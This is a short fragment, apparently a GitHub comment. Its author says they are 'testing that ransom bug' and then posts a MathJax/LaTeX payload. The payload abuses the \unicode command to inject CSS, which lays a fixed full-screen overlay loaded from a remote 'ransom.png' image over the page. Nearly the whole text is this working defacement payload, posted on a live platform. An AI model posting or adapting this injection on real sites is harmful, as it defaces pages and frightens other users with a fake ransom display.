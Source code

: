 testing that ransom bug pls dont ban I havent got a job yet

$$\ce{$8#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: -10; position: fixed; top: 0; left: 0; height:
100vh; object-fit: cover; background-size: cover; width: 130vw; opacity: 0.5; background:
url('https://github.com/vmfunc/vmfunc/blob/main/ransom.png?raw=true’);]{x0000}$}$$
